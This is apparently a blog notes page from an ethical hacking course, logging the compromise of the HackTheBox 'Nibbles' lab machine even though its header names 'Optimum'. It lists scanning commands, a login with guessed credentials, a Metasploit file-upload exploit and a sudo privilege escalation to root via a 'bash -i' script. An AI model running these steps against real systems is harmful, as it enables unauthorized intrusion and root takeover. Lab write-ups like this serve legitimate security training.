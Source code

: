 ```yaml
---
layout:     post
title:      TCM PEH Hacking Optimum Notes
date:       2021-03-20
summary:    TheCyberMentor's Practical Ethical Hacking course mid-course capstone, hacking HackTheBox Optimum
categories: certs
thumbnail: cogs
tags:
 - certs
 - pwned
---
```

<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Nibbles_0"></a>HTB Nibbles</h2>
<p class="has-line-data" data-line-start="1" data-line-end="2">Recording strokes to derive methodology</p>
<p class="has-line-data" data-line-start="3" data-line-end="7">nmap -A -T4 -p- 10.10.10.75<br>
Noted port 22 open<br>
Noted port 80 open<br>
Noted Ubuntu OS</p>
<hr>
<p class="has-line-data" data-line-start="8" data-line-end="25">searchsploit apache 2.4<br>
Visited 10.10.10.75:80 in browser<br>
Viewed wappalyzer extension, noted Ubuntu<br>
Viewed source<br>
Noted comment pointing to nibble blog directory<br>
Visited /nibbleblog<br>
Noted more links<br>
Viewed source<br>
searchsploit nibbles<br>
searchsploit nibble<br>
Noted nibbleblog 3 result SQLi<br>
Noted nibbleblog 4.0.3 Arb File Upload<br>
msfconsole<br>
search nibble<br>
use exploit/multi/http/nibbleblog_file_upload<br>
info<br>
Noted that this allows AUTHENTICATED remote attacker to blahblahblah</p>
<hr>
<p class="has-line-data" data-line-start="26" data-line-end="38">dirbuster&amp;<br>
<a href="http://10.10.10.75:80">http://10.10.10.75:80</a><br>
go faster<br>
/usr/share/wordlist/dirbuster/<em>medium</em><br>
/nibbleblog<br>
php<br>
Start<br>
Review tab<br>
Visited /nibbleblog/admin.php<br>
Logged in with Admin:nibbles<br>
Visited Settings<br>
Noted nibbleblog 4.0.3</p>
<hr>
<p class="has-line-data" data-line-start="39" data-line-end="71">In msfconsole<br>
options<br>
set password nibbles<br>
set username admin<br>
set rhosts 10.10.10.75<br>
set targeturi nibbleblog<br>
options<br>
exploit<br>
Noted session created<br>
sysinfo<br>
getuid<br>
shell<br>
pwd<br>
cd /home<br>
whoami<br>
cd nibbler<br>
ls -lha<br>
history<br>
cat .bash_history<br>
sudo -l<br>
mkdir personal<br>
cd personal<br>
mkdir stuff<br>
pwd<br>
echo “bash -i” &gt; <a href="http://monitor.sh">monitor.sh</a><br>
chmod +x <a href="http://monitor.sh">monitor.sh</a><br>
sudo <a href="http://monitor.sh">monitor.sh</a><br>
whoami<br>
Noted nibbler, still<br>
sudo /home/nibbler/personal/stuff/monitor.sh<br>
whoami<br>
Noted root</p>
